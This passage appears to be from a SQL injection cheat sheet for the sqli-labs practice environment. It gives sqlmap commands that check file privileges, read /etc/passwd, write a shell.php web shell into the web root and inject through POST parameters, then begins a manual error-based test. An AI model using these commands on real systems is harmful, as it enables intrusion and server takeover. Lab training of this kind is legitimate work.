 ```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 --privileges | grep FILE
```

#### Reading file

```bash
./sqlmap.py -u <URL> --file-read=<file to read>
```

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-read=/etc/passwd
```

#### Writing file

```
./sqlmap.py -u <url> --file-write=<file> --file-dest=<path>
```

```
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-write=shell.php --file-dest=/var/www/html/shell-php.php
```

#### POST

```bash
./sqlmap.py -u <POST-URL> --data="<POST-paramters> "
```

```bash
./sqlmap.py -u http://localhost/Less-11/ --data "uname=teste&passwd=&submit=Submit" -p uname
```

You can also use a file like with the post request:

```bash
./sqlmap.py -r post-request.txt -p uname
```

### Bare Hands

#### GET

#### Error-Based

#### Simple test

`Adding a simpe quote '`

Example: 

```
http://192.168.1.104/Less-1/?id=5'
```

#### Fuzzing

Sorting columns to find maximum column
